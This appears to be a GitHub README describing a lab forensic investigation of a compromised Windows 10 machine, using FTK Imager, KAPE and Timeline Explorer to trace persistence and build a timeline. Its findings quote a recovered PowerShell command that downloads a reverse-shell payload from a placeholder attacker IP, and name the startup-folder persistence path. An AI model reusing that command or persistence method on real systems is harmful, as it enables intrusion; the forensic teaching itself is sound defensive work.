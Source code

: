 ## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier [Windows 10 exploitation](https://github.com/muhammadrayyann/red-team-windows-exploitation.git), where I compromised a Windows machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing a disk image, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## 1. ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:

| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.001`, consolidating these artifacts, ensuring proper evidence integrity.

---

## 2. EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## 3. EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## 4. PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## 5. MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## 6. FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:

- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.

- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.

- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.

- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## 7. BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.

This provided a clear chronological picture of the attack.

---

## SUMMARY
Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:
![1](/snippets/1.1.png)

![1.1](/snippets/1.png)

![2](/snippets/2.png)

![3](/snippets/3.png)

![4](/snippets/4.png)

![5](/snippets/5.png)

![6](/snippets/6.png)

![7](/snippets/7.png)

![8](/snippets/8.png)

![9](/snippets/9.png)

![10](/snippets/10.png)

![11](/snippets/11.png)

![12](/snippets/12.png)

---

> ⚠️ Disclaimer:
> 
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.
